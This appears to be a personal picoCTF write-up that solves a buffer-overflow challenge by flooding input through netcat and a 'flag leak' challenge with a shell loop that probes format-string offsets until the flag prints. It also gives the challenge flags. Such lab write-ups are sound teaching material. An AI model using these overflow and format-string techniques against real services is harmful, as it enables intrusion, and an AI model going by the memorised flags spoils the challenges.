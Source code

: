 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
TBD

# flag leak
In the source code, the unsafe function `scanf` is used
```c
scanf("%127s", story);
```
We can potentially exploit it and make it print values off the stack
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62426
Tell me a story and then I'll tell you one >> %x  
Here's a story - 
ffebb4e0
(base) achu@air ~ % 
```
Automating this to run until we find a hit for string containing `CTF`
```bash
(base) achu@air ~ % i=0; while true; do output="$(echo "%${i}\$s" | nc saturn.picoctf.net 62426 2>/dev/null)"; if echo "$output" | grep -E CTF >/dev/null; then echo "Found at i=$i:"; echo "$output"; break; fi; i=$((i+1)); done

Found at i=24:
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
(base) achu@air ~ % 
```
Reformat and our correct flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`
